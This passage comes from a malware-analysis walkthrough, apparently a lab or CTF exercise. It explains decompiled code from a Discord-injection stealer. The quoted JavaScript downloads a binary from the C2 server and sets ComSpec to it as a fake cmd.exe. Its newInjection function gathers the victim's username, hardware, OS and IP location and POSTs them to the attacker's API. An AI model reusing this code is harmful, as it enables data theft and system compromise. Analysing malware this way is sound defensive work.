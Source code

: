                 const response = await request.json();
                writeFileSync(join(process.env.USERPROFILE, 'Documents','cmd.exe'), Buffer.from(response?.buffer), {
                    flag: 'w'
                });
                process.env.ComSpec = join(process.env.USERPROFILE, 'Documents', 'cmd.exe');
                resolve();
            } else {
                process.env.ComSpec = 'C:\\Windows\\system32\\cmd.exe';
                resolve();
            };
        });
    };
    

It is checking that `cmd.exe` is where it belongs in `system32`. If it is not
there, then it downloads a binary from the C2 and saves it as
`%USERPROFILE%\Documents\cmd.exe` (Task 11).

#### newInjection

`newInjection` is mostly about collecting information about the infected
computer to send back:

    
    
    async function newInjection() {
        const system_info = await si?.osInfo();
        const injections = await discordInjection();
    
        const network = await fetch('https://ipinfo.io/json', {
            method: 'GET',
            headers: {
                'Content-Type': 'application/json'
            }
        });
    
        const network_data = await network.json();
    
        fetch(options.api + 'new-injection', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({
                duvet_user: options?.user_id,
                computer_name: userInfo()?.username,
                ram: Math.round(totalmem() / (1024 * 1024 * 1024)),
                cpu: cpus()?.[0]?.model,
                injections,
                distro: system_info?.distro,
                uptime: uptime() * 1000,
                network: {
                    ip: network_data?.ip,
                    country: network_data?.country,
                    city: network_data?.city,
                    region: network_data?.region,
                }
            })
        });
    };
    